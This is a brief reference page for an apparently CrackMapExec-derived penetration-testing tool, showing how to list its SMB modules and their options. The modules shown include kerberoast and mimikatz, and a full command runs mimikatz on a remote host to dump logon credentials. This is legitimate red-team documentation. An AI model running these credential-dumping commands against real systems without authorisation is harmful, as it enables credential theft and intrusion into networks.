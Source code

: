 # SMB: Modules Reference
Created by: @awsmhacks  
Updated: 8/20/19   
CMX Version: 5.0.1
  

**Notes:**  
* The following examples assume you have a Kali Linux host connected to an internal network.    
* For the examples it is also assumed hosts are within a 192.168.1.0/24 IP space.   
* If CMX isnt giving output of anykind, you probably have something wrong with the command.   
- - -(better timeout messages are still a work-in-progress)  
  

----------------------------------------------------------------------------------------------------

----------------------------------------------------------------------------------------------------

# Using Modules

## List available SMB modules
Returns a list of loaded modules. The protocol can be replaced, i.e. {smb, winrm}
```
~# cmx smb -L
```
**Expected Results:**
```
[*] enum_av                   Enum AV products on the the remote host(s) via WMI
[*] getcompdetails            Enumerates sysinfo
[*] kerberoast                Kerberoasts all found SPNs for the current domain
[*] mimikatz                  Dumps all logon credentials from memory
```

----------------------------------------------------------------------------------------------------
## List Module Options
Returns options specific to a module
```
~# cmx smb -M <module_name> --options
```
```
~# cmx smb -M mimikatz --options

[*] mimikatz module options:

    Module Options:
           COMMAND  Mimikatz command to execute (default: 'privilege::debug sekurlsa::logonpasswords exit')

cmx --verbose smb 192.168.1.1 -u username -p password -M mimikatz -mo COMMAND='privilege::debug sekurlsa::logonpasswords exit'

```
